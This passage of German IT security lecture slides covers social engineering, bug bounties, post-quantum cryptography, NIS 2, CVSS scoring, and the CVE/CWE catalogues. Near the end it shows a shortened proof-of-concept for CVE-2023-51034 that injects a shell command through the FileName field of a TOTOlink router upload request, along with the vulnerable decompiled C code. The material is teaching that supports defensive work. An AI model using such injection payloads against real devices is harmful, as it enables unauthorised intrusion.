    Ein Beispiel eines nicht-harmlosen Streichs (Hoax) ist die Falschmeldung vom 1. April 2003, dass Bill Gates gestorben sei. Diese Falschmeldung wurde von vielen Menschen geglaubt und hatte relevanten Einfluss auf den Aktienmarkt.

    .. rubric:: Credential harvesting

    In der Anfangszeit von Github und Bitbucket wurden häufig Zugangsdaten und Zertifikate in öffentlichen Repositories gefunden, da die Nutzer diese im Quellcode hinterlegt hatten oder sogar als Ressourcen direkt eingebunden hatten.

    .. rubric:: Typische Phishing E-Mail

    .. image:: images/phishing-mail-fake-fedex.png
        :align: center
        :width: 80%

„Motivationstechniken“ von Angreifern
-------------------------------------------------------------

.. class:: incremental-list

- Autorität: Der Angreifer gibt sich z. B. als Mitarbeiter des IT-Supports aus.
- Einschüchterung (:eng:`Intimidation`)
- Dringlichkeit (*„In 10 Minuten verschlüssele ich den Rechner.“*)
- Konsens (*„Alle machen das so.“*)
- Knappheit (*„Es sind nur noch drei Rechner nicht infiziert.“*)
- Vertrautheit
- Vertrauen

.. class:: new-section transition-fade

Cybersicherheit stärken
-------------------------------------------------------------

.. class:: center-content

Bug-Bounty-Programme
-------------------------------------------------------------

.. epigraph::

    **Microsoft to offer hackers millions in Zero Day Quest event**

    Microsoft on Tuesday unveiled Zero Day Quest, a bug bounty event offering up to $4 million in rewards to security researchers.

    "At the end of the day, we recognize that when it comes to security, it's fundamentally a team sport," Microsoft CEO Satya Nadella said during his Tuesday keynote. "And that's why we want to partner, and we're partnering broadly with the security community."

    [...] Zero Day Quest is the "largest of its kind" and will offer a potential $4 million in awards for research into cloud and AI, which he described as "high-impact areas."

    -- 19.11.2024 `Techtarget <https://www.techtarget.com/searchsecurity/news/366616078/Microsoft-to-offer-hackers-millions-in-Zero-Day-Quest-event>`__

.. supplemental::

    Bug-Bounty-Programme sind Initiativen, die Einzelpersonen oder Forschergruppen für das Finden und Melden von Softwarefehlern belohnen. Diese Programme werden häufig von Softwareanbietern initiiert, um die Sicherheit ihrer Produkte zu verbessern.

.. class:: center-content

Post-Quantum Cryptography (PQC) Einführen
-------------------------------------------------------------

.. epigraph::

    **A joint statement from partners from 18 EU member states[...]**

    This threat to cryptography [i. e. established public-key cryptography is no longer secure] is posed by the development of a [...] quantum computer, which can break traditional public-key cryptographic schemes, [...] due to Shor’s algorithm. While there are currently no such cryptographically relevant quantum computers (CRQC) available, their development is progressing rapidly [...] :incremental:`preparing for the quantum threat should be considered an integral aspect of cyber security risk management.`

    :incremental:`[...] we currently strongly recommend to deploy PQC in hybrid solutions for most use-cases, i.e. combining a deployed cryptographic scheme with PQC in such a way that the combination remains secure even if one of its components is broken.`

    :incremental:`[...] The transition should also consider cryptoagility, allowing to ensure a more resilient transition to PQC[...]`

    -- 27.11.2024 `Securing Tomorrow, Today: Transitioning to PQC <https://www.bsi.bund.de/SharedDocs/Downloads/EN/BSI/Crypto/PQC-joint-statement.pdf?__blob=publicationFile&v=3>`__

.. class:: center-content

Quantencomputer - Bedrohungsbewertung
-------------------------------------------------------------

.. rubric:: [Bewertung der Bedrohung durch Quantencomputer]

.. epigraph::

    [...] preparing for the quantum threat should be considered an integral aspect of cybersecurity risk management. In an attempt to quantify the risk, the 2023 issue of the Quantum Threat Timeline conducted a survey among 37 international leading experts from academia and industry. Out of these, 17 estimated the risk that a CRQC appears within a 10-year timeframe higher than 5%. Moreover, 10 of these respondents even indicated a likelihood of about 50% or more.

    :incremental:`[...] To ensure an acceptable level of readiness, we recommend that these should be protected against "store now, decrypt later" attacks as soon as possible, latest by the end of 2030.`

    -- 27.11.2024 `Securing Tomorrow, Today: Transitioning to PQC <https://www.bsi.bund.de/SharedDocs/Downloads/EN/BSI/Crypto/PQC-joint-statement.pdf?__blob=publicationFile&v=3>`__

.. class:: new-subsection transition-scale

Die NIS 2 Richtlinie
-------------------------------------------------------------

.. container:: far-far-smaller minor margin-left-1em margin-right-1em margin-top-1em

    `Directive (EU) 2022/2555 of the European Parliament and of the Council of 14 December 2022 on measures for a high common level of cybersecurity across the Union, amending Regulation (EU) No 910/2014 and Directive (EU) 2018/1972, and repealing Directive (EU) 2016/1148 (NIS 2 Directive) <https://eur-lex.europa.eu/legal-content/DE/TXT/HTML/?uri=CELEX:32022L2555#d1e40-80-1>`__

NIS 2 Richtlinie (:eng:`NIS 2 Directive`)
-------------------------------------------------------------

.. class:: incremental-list list-with-explanations

- Die NIS2-Richtlinie ist die zweite EU-Richtlinie zur Netz- und Informationssicherheit (NIS) in der EU.
- *seit 17. Oktober 2024 müss(t)en alle nationalstaaten entsprechende Regelungen in nationales Recht umgesetzt haben und ab 18. Oktober 2024 anwenden*
- Das Hauptziel ist die Verbesserung der Widerstandsfähigkeit gegen Cyberkriminalität und die Verbesserung des europäischen und nationalen Cybersecurity-Managements.

    Die neue NIS-2-Richtlinie zielt darauf ab, die Widerstandsfähigkeit und Reaktionsfähigkeit des öffentlichen und privaten Sektors zu verbessern. Der Schwerpunkt der Richtlinie liegt auf der Bekämpfung der Cyberkriminalität.

-  Die NIS-2-Richtlinie gilt für Organisationen, inkl. Unternehmen und Zulieferer, die durch Erbringung wesentlicher oder wichtiger Dienstleistungen eine entscheidende Rolle für die Aufrechterhaltung der europäischen Wirtschaft und Gesellschaft spielen.

- Die Führungskräfte von betroffenen Einrichtungen sind für die Überwachung der Umsetzung der NIS-2-Richtlinie verantwortlich und können für Verstöße gegen die NIS-2-Richtlinie haftbar gemacht werden (Artikel 20).

.. supplemental::

    .. epigraph::

        **Artikel 20, Governance**

        (1)   Die Mitgliedstaaten stellen sicher, dass die Leitungsorgane wesentlicher und wichtiger Einrichtungen die von diesen Einrichtungen zur Einhaltung von Artikel 21 ergriffenen Risikomanagementmaßnahmen im Bereich der Cybersicherheit billigen, ihre Umsetzung überwachen und für Verstöße gegen diesen Artikel durch die betreffenden Einrichtungen verantwortlich gemacht werden können. [...]

        (2)   Die Mitgliedstaaten stellen sicher, dass die Mitglieder der Leitungsorgane wesentlicher und wichtiger Einrichtungen an Schulungen teilnehmen müssen, und fordern wesentliche und wichtige Einrichtungen auf, allen Mitarbeitern regelmäßig entsprechende Schulungen anzubieten, um ausreichende Kenntnisse und Fähigkeiten zur Erkennung und Bewertung von Risiken sowie Managementpraktiken im Bereich der Cybersicherheit und deren Auswirkungen auf die von der Einrichtung erbrachten Dienste zu erwerben.

        -- NIS 2 - KAPITEL IV `RISIKOMANAGEMENTMAẞNAHMEN UND BERICHTSPFLICHTEN IM BEREICH DER CYBERSICHERHEIT <https://eur-lex.europa.eu/legal-content/DE/TXT/HTML/?uri=CELEX:32022L2555#d1e3310-80-1>`__

NIS 2 - Berichtspflichten
----------------------------

- Wesentliche und wichtige Einrichtungen müssen unverzüglich (*in jeden Fall aber innerhalb von 24 Stunden*) über jeden Sicherheitsvorfall unterrichten, der erhebliche Auswirkungen auf die Erbringung ihrer Dienste hat
-   Ein Sicherheitsvorfall gilt als erheblich, wenn

    .. class:: incremental

    a) er schwerwiegende Betriebsstörungen der Dienste oder finanzielle Verluste für die betreffende Einrichtung verursacht hat oder verursachen kann;

    b) er andere natürliche oder juristische Personen durch erhebliche materielle oder immaterielle Schäden beeinträchtigt hat oder beeinträchtigen kann.

Von NIS2 betroffene öff. und priv. Einrichtungen\ [#]_
-----------------------------------------------------------------

    Folgende Organisation mit mehr als 50 Mitarbeitern und einem Umsatz von mehr als 10 Millionen Euro müssen die NIS-2-Richtlinie einhalten (obligatorisch).

.. class:: columns incremental-list

- \
    - Post- und Kurierdienste
    - Abfallwirtschaft
    - Chemie
    - Lebensmittel
    - Herstellung medizinischer Geräten
    - Computer und Elektronik
    - Maschinen
    - Kraftfahrzeuge
    - Energie

- \
    - Verkehrswesen
    - Bankwesen
    - Finanzmarkt-Infrastrukturen
    - Gesundheitswesen
    - Trinkwasserversorgung und -verteilung
    - Digitale Infrastrukturen
    - Online-Marktplätze
    - Online-Suchmaschinen
    - Cloud Computing-Dienste

.. supplemental::

    Bis zum 17. April 2025 erstellen die Mitgliedstaaten eine Liste von wesentlichen und wichtigen Einrichtungen und von Einrichtungen, die Domänennamen-Registrierungsdienste erbringen und aktualisieren sie gegebenenfalls regelmäßig — spätestens alle 2 Jahre.

.. [#] `Details siehe Anhang I und II der NIS 2 Richtlinie <https://eur-lex.europa.eu/legal-content/DE/TXT/HTML/?uri=CELEX:32022L2555#d1e32-143-1>`__

.. class:: no-title center-content

NIS 2 - Nationale Cybersicherheitsstrategie
-------------------------------------------------------------

.. attention::

    Jeder Mitgliedstaat erlässt eine *nationale Cybersicherheitsstrategie*, die die strategischen Ziele, die zur Erreichung dieser Ziele erforderlichen Ressourcen sowie angemessene politische und regulatorische Maßnahmen zur Erreichung und Aufrechterhaltung eines hohen Cybersicherheitsniveaus enthält.

NIS 2 - zentrale Einrichtungen
-------------------------------------------------------------

.. legend::
    :class: dd-margin-left-2em s-font-size-80

    :CSIRT: Computer Security Incident Response Team
    :Behörden für das Krisenmanagement: Sollte es mehr als eine geben, so wird eine explizit benannt, die für die Koordination und das  Management von *Cybersicherheitsvorfällen großen Ausmaßes und Krisen* zuständig ist

.. supplemental::

    Ein zentraler Gedanke ist die Vernetzung der zuständigen Behörden sowohl auf nationaler als auch auf europäischer Ebene sicherzustellen.

.. class:: new-section

Von der Bedeutung von Schwachstellen
---------------------------------------

.. rubric:: CVSS, CVE, NVD, CVD, KEV, EPSS, VEP

Definition von Schwachstellen nach CVE
------------------------------------------------------------------

.. epigraph::

    "Eine Schwachstelle in der Berechnungslogik (z. B. Code), die in Software- und Hardwarekomponenten gefunden wird und die, wenn sie ausgenutzt wird, zu einer negativen Auswirkung auf die **Vertraulichkeit**, **Integrität** oder **Verfügbarkeit** führt. Die Behebung der Schwachstellen in diesem Zusammenhang umfasst in der Regel Änderungen am Code, kann aber auch Änderungen an der Spezifikation oder sogar die Ablehnung der Spezifikation (z. B. die vollständige Entfernung der betroffenen Protokolle oder Funktionen) beinhalten."

    -- https://nvd.nist.gov/vuln (Übersetzt mit DeepL)

.. container:: incremental margin-top-2em

   In der Praxis werden n-Day und 0-Day Schwachstellen unterschieden.

Das Common Vulnerability Scoring System (CVSS)\ [#]_
----------------------------------------------------

.. container:: foundations

    CVSS 4.0 stellt einen Rahmen bereit für die Beschreibung und Bewertung des Schweregrads von Software-/Hardware-/Firmwareschwachstellen.

    .. container:: incremental

        Die Bewertung der Basiskennzahlen ergibt eine Punktzahl zwischen 0,0 und 10,0. Wobei 0 bedeutet, dass die Schwachstelle (bisher) harmlos ist und 10,0 bedeutet, dass die Schwachstelle sehr gravierend ist.

.. [#] `CVSS 4.0 <https://www.first.org/cvss/v4.0/specification-document>`__

.. supplemental::

    Harmlos ist im Prinzip damit gleichzusetzen, dass die Schwachstelle nicht ausgenutzt werden kann oder dass die Auswirkungen nicht weiter relevant sind.

CVSS umfasst vier Gruppen von Metriken
----------------------------------------

.. class:: incremental-list dhbw

1) Basis-Metriken (:eng:`Base Metrics`) erfassen die inhärenten Eigenschaften einer Schwachstelle, die sich nicht ändern, wenn sich die Umgebung ändert.
2) Bedrohungs-Metriken (:eng:`Threat Metric Group`) spiegelt die Merkmale einer Schwachstelle wieder, die sich im Laufe der Zeit verändern.
3) .. container:: peripheral fade-out

        Umgebungs-Metriken (:eng:`Environmental Metric Group`) erfassen die Eigenschaften einer Schwachstelle, die sich ändern, wenn sich die Umgebung ändert.
4) .. container:: peripheral fade-out

        Ergänzende-Metriken (:eng:`Supplemental`) liefern zusätzliche Informationen, die für die Bewertung einer Schwachstelle nützlich sein können, aber den Schweregrad nicht direkt beeinflussen.

CVSS - Basis-Metriken (:eng:`Base Metric Group`)
------------------------------------------------------------

.. grid::

    .. cell::

        **Bewertung der Ausnutzbarkeit** (:eng:`Exploitability Metrics`)

        .. class:: incremental-list impressive

        - Angriffsvektor (:eng:`Attack Vector`)
        - Angriffskomplexität (:eng:`Attack Complexity`)
        - Angriffsanforderungen (:eng:`Attack Requirements`)
        - Benötigte Privilegien (:eng:`Privileges Required`)
        - Erforderliche Benutzerinteraktion (:eng:`User Interaction`)

    .. cell:: incremental

        **Bewertung der Auswirkungen** (:eng:`Impact Metrics`)

        .. container:: incremental

            *bzgl. des betroffenen Systems* (:eng:`Vulnerable System`)

            .. class:: incremental-list impressive

            - Vertraulichkeit  (:eng:`Confidentiality Impact`)
            - Integrität (:eng:`Integrity Impact`)
            - Verfügbarkeit (:eng:`Availability Impact`)

        .. container:: incremental

            *bzgl. nachgelagerter Systeme* (:eng:`Subsequent System`)

            .. class:: incremental-list impressive

            - Vertraulichkeit (:eng:`Confidentiality Impact`)
            - Integrität (:eng:`Integrity Impact`)
            - Verfügbarkeit (:eng:`Availability Impact`)

CVSS - Bedrohungs-Metriken (:eng:`Threat Metric Group`)\ [#]_
--------------------------------------------------------------

.. container::

    .. class:: impressive

    - Reifegrad des Exploits (:eng:`Exploit Maturity`)

.. [#] Die Namen und der Gruppenzuschnitt (hier: :eng:`Temporal Metric Group`) waren unter `CVSS 3.0 <https://www.first.org/cvss/v3-0/specification-document>`__ anders.

.. supplemental::

    Gibt es bisher nur die Beschreibung der Schwachstelle oder gibt es bereits einen Proof-of-Concept (PoC) Exploit?

CVSS - Bewertung der Ausnutzbarkeit (:eng:`Exploitability Metrics`)
--------------------------------------------------------------------

:Attack Vector (AV): Network, Adjacent, Local, Physical

:Attack Complexity (AC): Low, High

:Attack Requirements (AT): None, Present

:Privileges Required (PR): None, Low, High

:User Interaction (UI): None, Passive, Active

.. supplemental::

    **Attack Vector**

    *Network*

    Schwachstellen, die häufig "aus der Ferne ausnutzbar" sind und als ein Angriff betrachtet werden können, der auf Protokollebene über einen oder mehrere Netzknoten hinweg (z. B. über einen oder mehrere Router) ausgenutzt werden kann.

    *Adjacent*

    Der Angriff ist auf eine logisch benachbarte Topologie beschränkt. Dies kann z. B.  bedeuten, dass ein Angriff aus demselben gemeinsamen Nahbereich (z. B. Bluetooth, NFC oder IEEE 802.11) oder logischen Netz (z. B. lokales IP-Subnetz) gestartet werden muss.

    *Local*

    Der Angreifer nutzt die Schwachstelle aus, indem er lokal auf das Zielsystem zugreift (z. B. Tastatur, Konsole) oder über eine Terminalemulation (z. B. SSH); oder der Angreifer verlässt sich auf die Interaktion des Benutzers, um die zum Ausnutzen der Schwachstelle erforderlichen Aktionen durchzuführen (z. B. mithilfe von Social-Engineering-Techniken, um einen legitimen Benutzer zum Öffnen eines bösartigen Dokuments zu verleiten).

    *Physical*

    Der Angreifer muss physisch Zugriff auf das Zielsystem haben, um die Schwachstelle auszunutzen.

    **Attack Complexity**

    Wie aufwendig ist es explizite Schutzmaßnahmen ((K)ASLR, Stack Canaries, ...) zu umgehen. Wie wahrscheinlich ist es, dass ein Angriff erfolgreich ist. Im Falle von :eng:`Race Conditions` können ggf. sehr viele Ausführungen notwendig sein bevor die Race Condition erfüllt ist.

    **Attack Requirements**

    Welcher Vorbedingungen (unabhängig von den expliziten Sicherungsmaßnahmen) müssen erfüllt sein, damit die Schwachstelle ausgenutzt werden kann. (z. B. der Nutzer muss sich an seinem Smartphone mindestens einmal seit dem Boot angemeldet haben (*After-First-Use* vs. *Before-First-Use*.))

    **Privileges Required**

    Welche Privilegien muss der Angreifer mindestens haben, um die Schwachstelle auszunutzen (Sind Adminstratorrechte erforderlich oder reichen normale Benutzerrechte).

    **User Interaction**

    Passiv bedeutet hier, dass der Nutzer unfreiwillig die Schwachstelle ausnutzt ohne bewusst Schutzmechanismen zu unterlaufen. Aktiv bedeutet, dass der Nutzer aktiv Interaktionen unternimmt, um die Schutzmechanismen des Systems auszuhebeln (z. B. durch das Installieren einer nicht-signierten Anwendung aus dem Internet).

CVSS - Bewertung der Auswirkung auf das betroffene System/Vulnerable System Impact Metrics
--------------------------------------------------------------------------------------------

:Confidentiality Impact (C): None, Low, High
:Integrity Impact (I): None, Low, High
:Availability Impact (A): None, Low, High

CVSS - Bewertung der Auswirkung auf das nachgelagerte System/Vulnerable System Impact Metrics
-----------------------------------------------------------------------------------------------

:Confidentiality Impact (C): None, Low, High
:Integrity Impact (I): None, Low, High
:Availability Impact (A): None, Low, High

.. class:: exercises transition-move-left

Diskussion: Schwachstellen und Ihre Bewertung
---------------------------------------------------------------

.. exercise::

    Ihnen liegt eine externe Festplatte vor, die Hardwareverschlüsselung unterstützt. D. h. wenn diese Festplatte an einen Computer angeschlossen wird, dann muss ein Passwort eingegeben werden, bevor auf die Daten zugegriffen werden kann. Dieses entsperren der Festplatte geschieht mit Hilfe eines speziellen Programms, dass ggf. vorher installiert werden muss. Die Festplatte ist mit AES-256-XTX verschlüsselt.

    Das Clientprogramm *hasht* erst das Passwort clientseitig, bevor es den *Hash* an den Controller der Festplatte überträgt. Die Firmware des Controllers validiert das Passwort in dem es den gesendeten Hash direkt mit dem bei der Einrichtung übermittelten Hash vergleicht; d. h. es finden keine weiteren sicherheitsrelevanten Operationen außer dem direkten Vergleich statt. Zum Entsperren der Festplatte ist es demzufolge ausreichend, den Hash aus der Hardware auszulesen und diesen an den Controller zu senden, um die Festplatte zu entsperren. Danach kann auf die Daten frei zugegriffen werden.

    .. question::

        Wie sieht der `CVSS 4.0 Score <https://www.first.org/cvss/v4-0/>`__ für diese Schwachstelle aus? (`CVSS Rechner <https://www.first.org/cvss/calculator/4.0>`__)

    .. solution::
        :pwd: IT Forensik

        .. rubric:: Lösungsvorschlag

        CVSS:4.0/AV:P/AC:H/AT:N/PR:N/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N
        CVSS v4.0 Score: 5.3 / Medium

.. class:: new-section transition-fade

Common Vulnerabilities and Exposures (`CVE <https://cve.org/>`__)
--------------------------------------------------------------------

Zweck von CVEs
------------------

.. class:: incremental-list

- Schwachstellen eindeutig identifizieren und bestimmten Versionen eines Codes (z. B. Software und gemeinsam genutzte Bibliotheken) mit diesen Schwachstellen verknüpfen.
- Kommunikationsgrundlage bilden, damit mehrere Parteien über eine eindeutig identifizierte Sicherheitslücke diskutieren können. `National Vulnerabilities Database - NIST <https://nvd.nist.gov>`__

1.  Jan. 2024 - zuletzt bewertete CVEs
-------------------------------------------------------------

.. container::

    .. die folgende Liste wurde per Copy-and-Paste des HTML Code von der NIST Webseite erzeugt:

    .. raw:: html

        <ul>
            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20672" id="cveDetailAnchor-0">CVE-2024-20672</a></strong>  - .NET Denial of Service Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20672&amp;vector=AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-danger" data-testid="vuln-cvss3-link-0" aria-label="V3 score for CVE-2024-20672">7.5 HIGH</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20666" id="cveDetailAnchor-1">CVE-2024-20666</a></strong>  - BitLocker Security Feature Bypass Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20666&amp;vector=AV:P/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-warning" data-testid="vuln-cvss3-link-1" aria-label="V3 score for CVE-2024-20666">6.6 MEDIUM</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20680" id="cveDetailAnchor-2">CVE-2024-20680</a></strong>  - Windows Message Queuing Client (MSMQC) Information Disclosure
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20680&amp;vector=AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-warning" data-testid="vuln-cvss3-link-2" aria-label="V3 score for CVE-2024-20680">6.5 MEDIUM</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20676" id="cveDetailAnchor-3">CVE-2024-20676</a></strong>  - Azure Storage Mover Remote Code Execution Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20676&amp;vector=AV:N/AC:H/PR:H/UI:N/S:C/C:H/I:H/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-danger" data-testid="vuln-cvss3-link-3" aria-label="V3 score for CVE-2024-20676">8.0 HIGH</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20674" id="cveDetailAnchor-4">CVE-2024-20674</a></strong>  - Windows Kerberos Security Feature Bypass Vulnerability
                    

                

                

                    

                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20682" id="cveDetailAnchor-5">CVE-2024-20682</a></strong>  - Windows Cryptographic Services Remote Code Execution Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20682&amp;vector=AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-danger" data-testid="vuln-cvss3-link-5" aria-label="V3 score for CVE-2024-20682">7.8 HIGH</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20683" id="cveDetailAnchor-6">CVE-2024-20683</a></strong>  - Win32k Elevation of Privilege Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20683&amp;vector=AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-danger" data-testid="vuln-cvss3-link-6" aria-label="V3 score for CVE-2024-20683">7.8 HIGH</a> 
                        
                    

                

            </li>

            <li>
                

                    

                        <strong><a href="/vuln/detail/CVE-2024-20681" id="cveDetailAnchor-7">CVE-2024-20681</a></strong>  - Windows Subsystem for Linux Elevation of Privilege Vulnerability
                    

                

                

                    

                         <em>V3.1:</em> <a href="/vuln-metrics/cvss/v3-calculator?name=CVE-2024-20681&amp;vector=AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H&amp;version=3.1&amp;source=Microsoft%20Corporation" class="label label-danger" data-testid="vuln-cvss3-link-7" aria-label="V3 score for CVE-2024-20681">7.8 HIGH</a> 
                        
                    

                

            </li>

            <li> ... </li>
        </ul>

National Vulnerability Database (`NVD <https://nvd.nist.gov/>`__)\ [#]_
-------------------------------------------------------------------------

.. class:: incremental-list

- Auflistung aller CVEs und deren Bewertung
- Alle Schwachstellen in der NVD sind mit einer CVE-Kennung versehen
- Die NVD ist ein Produkt der NIST Computer Security Division, Information Technology Laboratory
- Verlinkt häufig weiterführend Seiten, die Lösungshinweise und Tools bereitstellen, um die Schwachstelle zu beheben
- Verweist auf entsprechende Schwachstellen gemäß `CWEs <https://cwe.mitre.org/>`__
- Verlinkt gelegentlich *PoC* Exploits (:eng:`Proof-of-Concept Exploits`)

.. [#] Die NIS 2 Richtlinie der EU sieht auch den Aufbau einer europäischen Schwachstellen-Datenbank vor. Aktuell ist die NVD die zentrale Anlaufstelle bzgl. Schwachstellen.

Common Weakness Enumeration (`CWE <https://cwe.mitre.org/>`__)
----------------------------------------------------------------

- eine kollaborativ entwickelte, vollständig durchsuchbare, kategorisierte Liste von Typen von Software- und Hardware-Schwachstellen und deren Beschreibung, dient als:

  .. class:: incremental-list

  - gemeinsame Sprache,
  - Messlatte für Sicherheitstools,
  - als Grundlage für die Identifizierung von Schwachstellen sowie für Maßnahmen zur Abschwächung und Prävention.

CWE - Schwachstellenkatalog `TOP 25 in 2023 <https://cwe.mitre.org/top25/archive/2023/2023_top25_list.html#tableView>`__
--------------------------------------------------------------------------------------------------------------------------------------

.. story::

    .. csv-table::
        :class: highlight-line-on-hover incremental-table-rows
        :header: Rank , ID , Name, Rank Change vs. 2022
        :widths: 7, 12, 63, 18

        1 , CWE-787 , Out-of-bounds Write  , 0
        2 , CWE-79 , Improper Neutralization of Input During Web Page Generation ("*Cross-site Scripting*") , 0
        3 , CWE-89 , Improper Neutralization of Special Elements used in an SQL Command ("*SQL Injection*"") , 0
        4 , CWE-416 , Use After Free , +3
        5 , CWE-78 , Improper Neutralization of Special Elements used in an OS Command ("*OS Command Injection*") , +1
        6 , CWE-20 , Improper Input Validation , -2
        7 , CWE-125 , Out-of-bounds Read , -2
        8 , CWE-22 , Improper Limitation of a Pathname to a Restricted Directory ("*Path Traversal*") , 0
        9 , CWE-352 , Cross-Site Request Forgery (CSRF) , 0
        10 , CWE-434 , Unrestricted Upload of File with Dangerous Type , 0
        11 , CWE-862 , Missing Authorization ,  +5
        12 , CWE-476 , NULL Pointer Dereference , -1
        13 , CWE-287 , Improper Authentication , +1
        14 , CWE-190 , Integer Overflow or Wraparound , -1
        15 , CWE-502 , Deserialization of Untrusted Data , -3
        16 , CWE-77 , Improper Neutralization of Special Elements used in a Command ("*Command Injection*") , +1
        17 , CWE-119 , Improper Restriction of Operations within the Bounds of a Memory Buffer , +2
        18 , CWE-798 , Use of Hard-coded Credentials , -3
        19 , CWE-918 , Server-Side Request Forgery (SSRF) , +2
        20 , CWE-306 , Missing Authentication for Critical Function , -2
        21 , CWE-362 , Concurrent Execution using Shared Resource with Improper Synchronization ("*Race Condition*") , +1
        22 , CWE-269 , Improper Privilege Management , +7
        23 , CWE-94 , Improper Control of Generation of Code ("*Code Injection*") , +2
        24 , CWE-863 , Incorrect Authorization ,  +4
        25 , CWE-276 , Incorrect Default Permissions , -5

.. supplemental::

    Request Forgery = :ger:`Anfragefälschung`

    .. epigraph::

        **Fest codierte Cloud-Zugangsdaten in populären Apps entdeckt**

        Betroffen sind mehrere Apps mit teils Millionen von Downloads. Den Entdeckern zufolge gefährdet dies nicht nur Backend-Dienste, sondern auch Nutzerdaten.

        Sicherheitsforscher von Symantec haben Anwendungen aus dem Google Play Store und dem Apple App Store untersucht und dabei festgestellt, dass mehrere Apps mit teils Millionen von Downloads fest codierte und unverschlüsselte Anmeldedaten für verschiedene Clouddienste enthalten. Entdeckt wurden sowohl Schlüssel für den Zugang zu AWS-Ressourcen als auch solche für Microsoft Azure. [...]

        -- 23.10.2024 `Golem.de <https://www.golem.de/news/android-und-ios-fest-codierte-cloud-zugangsdaten-in-populaeren-apps-entdeckt-2410-190106.html>`__

CVE-2023-51034 - *Arbitrary Code Execution*
----------------------------------------------------------------------

.. epigraph::

   TOTOlink EX1200L V9.3.5u.6146_B20201023 is vulnerable to arbitrary command execution via the cstecgi.cgi UploadFirmwareFile interface.

   -- Published: December 22, 2023; Last modified: January 2, 2024

.. container::

    :Bewertung: CVSS V3.1: 9.8 Critical
    :PoC Exploit: `815yang.github.io <https://815yang.github.io/2023/12/12/ex1200l/totolink_ex1200L_UploadFirmwareFile/>`__
    :Weakness Enumeration: CWE-434 Unrestricted Upload of File with Dangerous Type

.. supplemental::

    Bei TOTOlink EX1200L handelt es sich um einen Wifi Range Expander.

    PoC ≘ Proof-of-Concept

CWE-434 Unrestricted Upload of File with Dangerous Type\ [#]_
---------------------------------------------------------------

.. class:: incremental-list

- **Beschreibung**

  Das Produkt ermöglicht es dem Angreifer, Dateien gefährlicher Typen hochzuladen oder zu übertragen, die in der Produktumgebung automatisch verarbeitet werden können.

- **Art der Einführung**

  Diese Schwäche wird durch das Fehlen einer Sicherheitstaktik während der Architektur- und Entwurfsphase verursacht.

- **Scope**

  Willkürliche Codeausführung ist möglich, wenn eine hochgeladene Datei vom Empfänger als Code interpretiert und ausgeführt wird. [...] Somit ist ggf. die Integrität, Vertraulichkeit und Verfügbarkeit betroffen.

.. [#] `Mitre.org <https://cwe.mitre.org/data/definitions/434.html>`__ (2023; übersetzt mit DeepL)

CVE-2023-51034 - PoC (gekürzt)
-------------------------------------------------

.. grid::

    .. cell::

        .. rubric:: Initiale Anfrage

        .. code:: http
            :number-lines:

            POST /cgi-bin/cstecgi.cgi HTTP/1.1
            [...]
            {
                "FileName":
                    ";ls../>/www/yf.txt;",
                "topicurl":
                    "UploadFirmwareFile"
            }

    .. cell::

        .. rubric:: Abfrage der Datei (hier: :code:`yf.txt`)

        .. code:: http
            :number-lines:

            GET /yf.txt HTTP/1.1
            [...]
            Connection: close

        Das Ergebnis ist eine Datei mit der Auflistung der Dateien im Verzeichnis (``..``).

CVE-2023-51034 - zugrundeliegende Schwachstelle
-------------------------------------------------

.. code:: C
    :number-lines:

    Var = (const char *)websGetVar(a1, "FileName", &byte_42FE28);
    v3 = (const char *)websGetVar(a1, "FullName", &byte_42FE28);
    v4 = (const char *)websGetVar(a1, "ContentLength", &word_42DD4C);
    v5 = websGetVar(a1, "flags", &word_42DD4C);
    v6 = atoi(v5);
    Object = cJSON_CreateObject();
    v8 = fopen("/dev/console", "a");
    v9 = v8;
    if ( v8 )
    {
        fprintf(v8, "[%s:%d] FileName=%s,FullName=%s,ContentLength=%s\n",
                    "UploadFirmwareFile", 751, Var, v3, v4);
        fclose(v9);
    }
    v10 = strtol(v4, 0, 10) + 1;
    strcpy(v52, "/tmp/myImage.img");
    doSystem("mv %s %s", Var, v52);

.. supplemental::

    Die Lücke ist auf die folgenden Zeilen zurückzuführen:

    .. code:: c
        :number-lines:

        Var = (const char *)websGetVar(a1, “FileName”, &byte_42FE28);
        ...
        doSystem(“mv %s %s”, Var, v52);

    Der Aufruf von :code:`doSystem` ermöglicht die Ausführung von beliebigem Code. Der Angreifer kann den Wert von :code:`Var` so manipulieren, dass er quasi beliebigen Code ausführen kann.

Ausgenutzte Schwachstellen
---------------------------

